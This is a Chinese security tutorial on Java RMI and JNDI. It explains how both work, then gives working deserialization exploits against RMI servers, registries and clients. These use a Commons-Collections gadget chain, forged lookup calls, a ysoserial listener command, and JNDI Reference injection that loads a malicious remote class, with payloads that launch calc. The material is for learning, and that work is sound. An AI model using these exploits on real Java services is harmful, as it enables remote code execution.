








# JAVA 小白入门基础篇—初探 RMI 和 JNDI - 先知社区

JAVA 小白入门基础篇—初探 RMI 和 JNDI

- - -

# 学前必备

## RMI 介绍

`RMI`，即远程方法调用，即在一个 JVM 中 JAVA 程序调用在另一台远程 JVM 中运行的 JAVA 程序。

RMI 包括三部分，分别是**Server，Registry，Client**。

三者作用如下

```bash
Server ———— 服务端：绑定远程对象
Client ———— 客户端：调用服务端的方法
Registry ———— 注册端；提供服务注册与服务获取
```

RMI 运行过程如下：

```bash
1、Server 在 Registry 端 bind 即将被调用的远程对象
2、Client 调用对象时，根据 rmi://连接到 Registry，查看是否有需要的对象
3、如果有，Registry 返回 Server 端的 rmi://地址和端口
4、Client 跟进地址和端口连接 Server 端，并调用远程对象上的方法
5、Server 执行远程对象的方法，并将结果返回给 Client
```

## Demo 利用

### 接口

编写一个接口，定义一个`SayHello`方法

```bash
public interface Remoteobj extends Remote {
    public String SayHello(String key) throws RemoteException;
}
```

要求有三个

```bash
1、此远程接口要求作用域为 public；
2、继承 Remote 接口；
3、其中的接口方法抛出异常
```

### 接口实现类

实现接口类并对方法进行重写

```bash
public class RemoteObjImpl extends UnicastRemoteObject implements Remoteobj {
    public RemoteObjImpl() throws RemoteException{

    }
    @Override
    public String SayHello(String key) throws RemoteException{
        System.out.println(key);
        return key;
    }
}
```

要求如下

```bash
1、实现远程接口;
2、继承 UnicastRemoteObject 类，用于生成 Stub（存根）和 Skeleton（骨架）;
3、构造函数需要抛出一个 RemoteException 错误;
4、实现类中使用的对象必须都可序列化，即都继承 java.io.Serializable;
```

### 注册远程对象

```bash
public class RMIServer {
    public static void main(String[] args) throws Exception{
        //实例化对象
        Remoteobj remoteobj = new RemoteObjImpl();
        //创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        //绑定对象到注册中心
        registry.bind("qwq",remoteobj);
    }
}
```

解释如下

```bash
1、实例化对象，将刚刚写好的接口实现类进行实例化;
2、创建注册中心，端口随意 (默认 1099);
3、将注册中心与对象进行绑定，名称随意
```

### 客户端

```bash
public class RMIClient {
    public static void main(String args[]) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Remoteobj remoteobj = (Remoteobj) registry.lookup("qwq");
        String res =remoteobj.SayHello("test");
        System.out.println(res);
    }
}
```

解释如下

```bash
1、获取远程注册表
2、使用 lookup 调用远程对象
3、调用远程对象上的方法
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126105922-e813f0a2-bbf6-1.png)

# 攻击 RMI

## 攻击服务端

引用`su18`大师傅的一段话。

```bash
在客户端获取到服务端创建的 Stub 之后，会在本地调用这个 Stub 并传递参数，Stub 会序列化这个参数，并传递给 Server 端，Server 端会反序列化传入的参数并进行调用，如果这个参数是 Object 类型，Client 可以传给 Server 端任意的类，直接造成反序列化漏洞
```

服务端要求如下

```bash
1、jdk 版本 1.7
2、使用具有漏洞的 Commons-Collections3.1 组件
3、RMI 提供的数据有 Object 类型（因为攻击 payload 就是 Object 类型）
```

服务端存在接受 Object 类型的方法

```bash
public class AttackServer {
    public class RemoteHelloWorld extends UnicastRemoteObject implements Remoteobj {

        protected RemoteHelloWorld() throws RemoteException {
            super();
        }

        @Override
        public String SayHello(String key) throws RemoteException {
            System.out.println("调用了SayHello");
            return null;
        }

        public void evil(Object obj) throws RemoteException {
            System.out.println("调用了evil方法，传递对象为：" + obj);
        }
    }
        private void start() throws Exception {
            RemoteHelloWorld h = new RemoteHelloWorld();
            LocateRegistry.createRegistry(1099);
            Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
        }
        public static void main(String[] args) throws Exception {
            new AttackServer().start();
        }
}
```

客户端代码如下

```bash
public class RMIClient {
    public static void main(String args[]) throws Exception{
        Remoteobj r = (Remoteobj) Naming.lookup("rmi://127.0.0.1:1099/Hello");
        r.evil(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }

}
```

攻击端不要求 JDK 版本，攻击成功弹出计算器：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126105932-ee324772-bbf6-1.png)

### 利用 codebase 执行命令

首先说一下 codebase 是什么

```bash
java.rmi.server.codebase：codebase 是一个地址，告诉 Java 虚拟机我们应该从哪个地方去搜索类，有点像我们日常用的 CLASSPATH，但 CLASSPATH 是本地路径，而 codebase 通常是远程 URL，比如 http、ftp 等。
```

当对象在发送序列化的数据的时候会带上`codebase`信息，当接受方在本地`classpath`中没有找到类的话，就会去`codebase`所指向的地址加载类。

但加载远程类是有一定条件的，不论是客户端还是服务端要加载远程类，都需要满足如下两个条件

```bash
1、需要安装 RMISecurityManager 并且配置 java.security.policy
2、属性 java.rmi.server.useCodebaseOnly 的值必需为 false。
```

但是在 JDK 6u45、7u21 之后，`java.rmi.server.useCodebaseOnly`默认为`true`，所以此时就无法满足自动加载远程类文件。因此这个加载远程对象攻击客户端的方法相对来说较为鸡肋。

接下来进行简单复现 (代码参考 P 神的《JAVA 安全漫谈》)。

首先创建一个`Icalc`接口

```bash
import java.rmi.Remote;
import java.rmi.RemoteException; 
import java.util.List;

public interface ICalc extends Remote {
    //这使用 List 类做参数是方便我们传递恶意对象
    public Integer sum(List<Integer> params) throws RemoteException;
}
```

接下来编写接口实现类

```bash
public class Calc extends UnicastRemoteObject implements ICalc {
    public Calc() throws RemoteException {
    }

    public Integer sum(List<Integer> params) throws RemoteException {
        Integer sum = 0;
        for (Integer param : params) {
            sum += param;
        }
        return sum;
    }
}
```

接下来写 RMI 服务器，这里将服务端和注册中心写在同一文件下

```bash
public class RMIServer {
    private void start() throws Exception {
        if (System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            System.setSecurityManager(new SecurityManager());
        }
        Calc h = new Calc(); LocateRegistry.createRegistry(1099);
        Naming.rebind("refObj", h);
    }
    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}
```

再写一个`java.policy`，具体内容如下

```bash
grant {
    permission java.security.AllPermission;
};
```

不写这个的话，使用`SecurityManager`会报错没有权限的错误。

接下来去设置`VM options`，具体代码如下

```bash
-Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=D:\xx\java.policy -Djava.rmi.server.hostname=192.168.2.117
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126105952-fa305320-bbf6-1.png)

编译并运行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110002-ffb15470-bbf6-1.png)

接下来编写客户端代码，`RMIClient`代码如下

```bash
import java.rmi.Naming;
import java.util.List;
import java.util.ArrayList;
import java.io.Serializable;
public class RMIClient implements Serializable {

    private static final long serialVersionUID = 1L;

    public class Payload extends ArrayList<Integer>
    {}

    public void lookup() throws Exception {
        ICalc r = (ICalc)
                Naming.lookup("rmi://192.168.1.116:1099/refObj");
        List<Integer> li = new Payload(); 
          li.add(3);
        li.add(4);
        System.out.println(r.sum(li)); }
    public static void main(String[] args) throws Exception {
        new RMIClient().lookup();
    }
}
```

配置`VM options`如下

```bash
java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://192.168.2.117:8000/ -Djava.security.policy=D:\java 测试\CC1test\src\main\java\codebase\java.policy
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110035-137b5348-bbf7-1.png)

接下来编写恶意的 Client 代码

```bash
public class RMIClient implements Serializable {

    private static final long serialVersionUID = 1L;

    static {
        try{
            Runtime.getRuntime().exec("calc");
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    public class Payload extends ArrayList<Integer>
    {}

    public void lookup() throws Exception {
        ICalc r = (ICalc)
                Naming.lookup("rmi://192.168.2.117:1099/refObj");
        List<Integer> li = new Payload();
        li.add(3);
        li.add(4);
        System.out.println(r.sum(li)); }
    public static void main(String[] args) throws Exception {
        new RMIClient().lookup();
    }
}
```

此时再对所有文件进行编译，再将文件开放到 8000 端口

```bash
javac *.java
python -m http.server 8000
```

而后开启客户端即可使得服务端访问恶意类并加载进而实现任意命令执行。

## 攻击注册中心

利用客户端攻击注册中心。

客户端与注册中心交互的是这句话

```bash
Naming.bind("rmi://127.0.0.1:1099/Hello", new RemoteHelloWorld());
```

但其实不只有`bind`这一种方法，具体如下

-   list
-   bind
-   rebind
-   unbind
-   lookup

这几种方法位于 `RegistryImpl_Skel#dispatch` 中，如果存在对传入的对象调用 `readObject()` 方法，则可以利用，`dispatch` 里面对应关系如下：

-   0 —– bind
-   1 —– list
-   2 —– lookup
-   3 —– rebind
-   4 —– unbind

### list

用 `list()` 方法可以列出目标上所有绑定的对象

Demo 如下

服务端同之前攻击服务端的就可以，然后改下客户端

```bash
public class RMIClient {
    public static void main(String args[]) throws Exception{
        String[] s = Naming.list("rmi://127.0.0.1:1099");
        System.out.println(s);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110050-1c5a3f7e-bbf7-1.png)

但是由于没有`readObject()`，所以无法进行反序列化

### bind&&rebind

相关源码如下

```bash
case 0:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var94) {
        throw new UnmarshalException("error unmarshalling arguments", var94);
    } catch (ClassNotFoundException var95) {
        throw new UnmarshalException("error unmarshalling arguments", var95);
    } finally {
        var2.releaseInputStream();
    }

    var6.bind(var7, var8);

    try {
        var2.getResultStream(true);
        break;
    } catch (IOException var93) {
        throw new MarshalException("error marshalling return", var93);
    }

//...

case 3:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var85) {
        throw new UnmarshalException("error unmarshalling arguments", var85);
    } catch (ClassNotFoundException var86) {
        throw new UnmarshalException("error unmarshalling arguments", var86);
    } finally {
        var2.releaseInputStream();
    }

    var6.rebind(var7, var8);

    try {
        var2.getResultStream(true);
        break;
    } catch (IOException var84) {
        throw new MarshalException("error marshalling return", var84);
    }
```

调用`bind`或`rebind`都会读出参数名和调用远程对象，所以两者均可利用

如果存在 CC 链相关漏洞，此时就可以进行反序列化攻击，我们这里以 CC1 为例

```bash
public class AtttackRegistry {
    public static void main(String[] args) throws Exception {

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        InvocationHandler handler = (InvocationHandler) getpayload();
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, handler));
        registry.bind("test",r);

    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110134-36f15160-bbf7-1.png)

`Remote.class.cast` 这里实际上是将一个代理对象转换为了 Remote 对象，因为 `bind()` 方法这里需要传入 Remote 对象。

`rebind`只需要把`registry.bind`换成`registry.rebind`即可。

### unbind&&lookup

相关代码如下

```bash
case 2:
    try {
        var10 = var2.getInputStream();
        var7 = (String)var10.readObject();
    } catch (IOException var89) {
        throw new UnmarshalException("error unmarshalling arguments", var89);
    } catch (ClassNotFoundException var90) {
        throw new UnmarshalException("error unmarshalling arguments", var90);
    } finally {
        var2.releaseInputStream();
    }

    var8 = var6.lookup(var7);

    try {
        ObjectOutput var9 = var2.getResultStream(true);
        var9.writeObject(var8);
        break;
    } catch (IOException var88) {
        throw new MarshalException("error marshalling return", var88);
    }

//...

case 4:
    try {
        var10 = var2.getInputStream();
        var7 = (String)var10.readObject();
    } catch (IOException var81) {
        throw new UnmarshalException("error unmarshalling arguments", var81);
    } catch (ClassNotFoundException var82) {
        throw new UnmarshalException("error unmarshalling arguments", var82);
    } finally {
        var2.releaseInputStream();
    }

    var6.unbind(var7);

    try {
        var2.getResultStream(true);
        break;
    } catch (IOException var80) {
        throw new MarshalException("error marshalling return", var80);
    }
```

可以看出这里的`readObject`只接受 String 类型的，因此我们需要伪造`lookup`连接请求，从而进行利用

```bash
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class AttackLookup {

    public static void main(String[] args) throws Exception {

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        InvocationHandler handler = (InvocationHandler) getpayload();
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, handler));
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);

        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);

    }

    // CC1对象
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110148-3f4e9e3a-bbf7-1.png)

## 攻击客户端

### 注册中心攻击客户端

注册中心攻击客户端，依旧是由这几个方法来进行触发

-   bind
-   unbind
-   rebind
-   list
-   lookup

`bind`、`list`、`lookup`三个方法都会返回数据给客户端，返回的数据是序列化形式，那么到了客户端就会进行反序列化，如果我们能控制注册中心的返回数据，那么就能实现对客户端的攻击，这里直接使用工具生成恶意数据，来作为注册中心

```bash
java -cp .\ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections1 calc
```

此时去编写客户端代码，其实就是获取注册中心调用下`list`或其他几个都可以

```bash
public class Client {
    public static void main(String[] args) throws RemoteException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110200-460cd994-bbf7-1.png)

### 服务端攻击客户端

服务端攻击客户端，主要有两种情形，分别是`服务器返回Object`对象和`codebase`执行命令，现在依次来介绍。

#### 服务端返回 Object 对象

在 RMI 中，远程方法调用传递回来的既可以是基础数据类型 (String,Int)，也可以是对象。

那么当服务端返回客户端一个对象时，客户端就要对应的进行反序列化，这也就是服务端能攻击客户端的原因，我们返回一个恶意对象，就可以实现攻击客户端了。

先写一个 User 接口，接收 Object 类型。

```bash
public interface User extends java.rmi.Remote {
    public Object getUser() throws Exception;
}
```

服务端实现 User 接口，并返回恶意 Object 对象

```bash
public class UserServer extends UnicastRemoteObject implements User {
    protected UserServer() throws RemoteException {
        super();
    }

    @Override
    public Object getUser() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime",
                                new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new String[]{"calc.exe"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);


        return (Object) handler;
    }
}
```

将恶意对象绑定至注册中心

```bash
public class RMIServer {
    public static void main(String[] args) throws Exception{
        //实例化对象
        User qwq = new UserServer();
        //创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        //绑定对象到注册中心
        registry.bind("qwq",qwq);
    }
}
```

客户端获取远程方法的 getUser 方法，此时将触发恶意对象，实现任意命令执行

```bash
public class RMIServer {
    public static void main(String[] args) throws Exception{
        //实例化对象
        User qwq = new UserServer();
        //创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        //绑定对象到注册中心
        registry.bind("qwq",qwq);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110216-4fc08f08-bbf7-1.png)

#### 远程加载对象

与上文`利用codebase执行命令`类似，利用条件苛刻，具体参考[https://paper.seebug.org/1091/#serverrmi](https://paper.seebug.org/1091/#serverrmi)

# 学前必备

## JDNI 定义

**Java Naming and Directory Interface**，即 Java 名称与目录接口，可以简单的理解为一个名字对应一个对象。

JNDI 在 JDK 中包含四个服务，具体如下

-   LDAP：轻量级目录访问协议
-   通用对象请求代理架构 (CORBA)；通用对象服务 (COS) 名称服务
-   Java 远程方法调用 (RMI) 注册表
-   DNS 服务

## JNDI 包

JNDI 包含以下几个包：

-   [javax.naming](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/naming.html)：主要用于命名操作，它包含了命名服务的类和接口，该包定义了 Context 接口和 InitialContext 类
-   [javax.naming.directory](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/directory.html)：主要用于目录操作，它定义了 DirContext 接口和 InitialDir-Context 类
-   [javax.naming.event](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/event.html)：在命名目录服务器中请求事件通知
-   [javax.naming.ldap](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/ldap.html)：提供 LDAP 服务支持
-   [javax.naming.spi](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/provider.html)：允许动态插入不同实现，为不同命名目录服务供应商的开发人员提供开发和实现的途径，以便应用程序通过 JNDI 可以访问相关服务

最重要的是`javax.naming`包，它包含了访问目录服务所需的类和接口，比如`Context`、`Bindings`、`References`、`lookup` 等。

## JNDI 类

常见的类有如下几个

### InitialContext

构造方法如下

```bash
//构建一个初始上下文。
InitialContext() 
//构造一个初始上下文，并选择不初始化它。
InitialContext(boolean lazy) 
//使用提供的环境构建初始上下文。
InitialContext(Hashtable<?,?> environment)
```

常用到的方法有以下几个

```bash
//将名称绑定到对象。 
bind(Name name, Object obj) 
//枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名。
list(String name) 
//检索命名对象。
lookup(String name)  
//将名称绑定到对象，覆盖任何现有绑定。
rebind(String name, Object obj) 
//取消绑定命名对象。
unbind(String name)
```

demo 如下

```bash
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JndiTest {
    public static void main(String[] args) throws NamingException {
        String uri = "rmi://127.0.0.1:1099/work";
        //在这 JDK 里面给的解释是构建初始上下文，其实通俗点来讲就是获取初始目录环境。
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

### Reference

该类是`javax.naming`中的一个类，该类表示在命名/目录系统外部找到的对象的引用。此类提供了`JNDI`类的引用功能

构造方法如下

```bash
//为类名为"className"的对象构造一个新的引用。
Reference(String className) 
//为类名为"className"的对象和地址构造一个新引用。 
Reference(String className, RefAddr addr) 
//为类名为"className"的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。 
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
//为类名为"className"的对象以及对象工厂的类名和位置构造一个新引用。  
Reference(String className, String factory, String factoryLocation)

/*
参数：
className 远程加载时所使用的类名
factory  加载的 class 中需要实例化类的名称
factoryLocation  提供 classes 数据的地址可以是 file/ftp/http 协议
*/
```

常用方法：

```bash
//将地址添加到索引 posn 的地址列表中。
void add(int posn, RefAddr addr) 
//从此引用中删除所有地址。  
void clear() 
//检索索引 posn 上的地址。 
RefAddr get(int posn) 
//检索本参考文献中地址的列举。 
Enumeration<RefAddr> getAll() 
//检索引用引用的对象的类名。 
String getClassName() 
//检索此引用引用的对象的工厂位置。  
String getFactoryClassLocation() 
//检索此引用引用对象的工厂的类名。  
String getFactoryClassName() 
//从地址列表中删除索引 posn 上的地址。    
Object remove(int posn) 
//检索此引用中的地址数。 
int size() 
//生成此引用的字符串表示形式。
String toString()
```

demo 如下：

```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JndiTest {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);
    }
}
```

这里在调用完`Reference`又使用`ReferenceWrapper`对前面的`reference`对象进行了封装，之所以这么做是因为`Reference`没有实现`Remote`接口也没有继承`UnicastRemoteObject`类。（将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类）

## JNDI 代码示例

### JNDI 结合 RMI

首先起一个 RMI 服务。

我们首先写一个接口，这里命名为 IHello.java

```bash
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public String sayHello(String name) throws RemoteException;
}
```

接下来写 RMI 服务端和注册中心，这里写到同一个文件下了

```bash
public class RMIServer {

    public class RMIHello extends UnicastRemoteObject implements IHello {
        protected RMIHello() throws RemoteException{
            super();
        }

//        protected RMIHello() throws RemoteException{
//            UnicastRemoteObject.exportObject(this,0);
//        }

        @Override
        public String sayHello(String name) throws RemoteException {
            System.out.println("Hello World!");
            return name;
        }
    }

    private void register() throws Exception{
        RMIHello rmiHello=new RMIHello();
        LocateRegistry.createRegistry(1099);
        Naming.bind("rmi://127.0.0.1:1099/hello",rmiHello);
        System.out.println("Registry运行中......");
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().register();
    }
}
```

启动 RMI 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110234-5a9d20f8-bbf7-1.png)

接下来通过 JNDI 调用此类

```bash
public class JndiTest {
    public static void main(String[] args) throws NamingException, RemoteException {
        //设置 JNDI 环境
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");

        //初始上下文，其实通俗点来讲就是获取初始目录环境。
        InitialContext initialContext = new InitialContext(env);

        //调用远程类
        IHello iHello =(IHello)initialContext.lookup("hello");
        System.out.println(iHello.sayHello("quan9i"));
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110243-5fb8a44a-bbf7-1.png)

需要注意的是`这里我们需要实现IHello接口，并且包名和RMI Server端相同`

### JNDI 结合 DNS

```bash
public class DNSClient {
    public static void main(String[] args) {
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.dns.DnsContextFactory");
        env.put(Context.PROVIDER_URL, "dns://114.114.114.114");

        try {
            DirContext ctx = new InitialDirContext(env);
            Attributes res = ctx.getAttributes("quan9i.top", new String[] {"A"});
            System.out.println(res);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110248-62d49fee-bbf7-1.png)

## JNDI 实现

### 获取工厂类

刚刚的 JNDI 结合 RMI，我们可以发现设置上下文就可以调用对应服务，也就是说调用不同的上下文就能调用不同的服务，这是为什么呢，我们简单跟一下看看。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110254-66b6e25c-bbf7-1.png)

在`InitalContext#InitialContext()`中，通过我们传入的`HashTable`进行 init。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110301-6acf348e-bbf7-1.png)

继续跟进，最终来到`` `NamingManager#getInitialContext() ``中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110308-6f0a8c38-bbf7-1.png)

这里首先通过`getInitialContextFactoryBuilder()`函数初始化了一个`InitialContextFactoryBuilder`类，如果这个类为空，则将`className`设置为`INITIAL_CONTEXT_FACTORY`属性，这个属性就是我们设置的`com.sun.jndi.rmi.registry.RegistryContextFactory`。

继续跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110313-720a560c-bbf7-1.png)

这里通过`loadClass()`来动态加载我们设置的工厂类

根据最后`renturn factory.getInitialContext(env)`我们可以知道，最终调用的其实是`` `RegistryContextFactory#getInitialContext() ``方法\`，通过设置好的工厂类来初始化上下文

所以整体流程大致为

```bash
获取工厂类：
initialContext#InitialContext()->NamingManager#getInitialContext()->loadClass()->根据 INITIAL_CONTEXT_FACTORY 属性动态获取工厂类
```

### 获取服务交互所需资源

此时`JNDI`知道了我们想要调用何种资源，那它是如何知道服务地址以及获取服务的各种资源的呢？

我们书接上文，来到`RegistryContextFactory#getInitialContext()`中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110321-765f3b32-bbf7-1.png)

这里的`var1`就是我们设置的两个环境变量，跟进`getInitCtxURL()`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110351-88a81fca-bbf7-1.png)

JDNI 通过我们设置的`PROVIDER_URL`环境变量获取到服务的路径。

接着在`URLToContext()`方法中初始化了一个`rmiURLContextFactory`类，并根据服务路径获取实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110341-824a1fde-bbf7-1.png)

而后来到`rmiURLContextFactory#getUsingURL()`中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110406-919f198a-bbf7-1.png)

调用了`lookup`方法，跟进来到了`GenericURLConetext.class#lookup()`中，发现这里套了一个`lookup`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110411-948867aa-bbf7-1.png)

继续跟进，来到了`RegistryContext#lookup`方法中，我们可以看到这里实例化了一个新的`RegistryContext()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110418-983e376c-bbf7-1.png)

最终根据获取了一系列信息，包含`port`、`host`等。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126110422-9b260fcc-bbf7-1.png)

## JNDI 注入

通过之前的分析可以看出，当`lookup()`调用不当时，就可能导致加载恶意类。

### JNDI+RMI

当我们在`Reference`类放置恶意服务时，此时客户端就会加载远程恶意类。

具体攻击代码如下

```bash
public class RMI_Server_Reference {


    void register() throws Exception{
        LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("RMIHello","RMIHello","http://127.0.0.1:8000/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(reference);
        Naming.bind("rmi://127.0.0.1:1099/hello",refObjWrapper);
        System.out.println("Registry运行中......");
    }

    public static void main(String[] args) throws Exception {
        new RMI_Server_Reference().register();
    }
}
```

`RMIHello.java`代码如下

```bash
//远程工厂类
public class RMIHello extends UnicastRemoteObject implements ObjectFactory {
    public RMIHello() throws RemoteException {
        super();
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public String sayHello(String name) throws RemoteException {
        System.out.println("Hello World!");
        return name;
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }

}
```

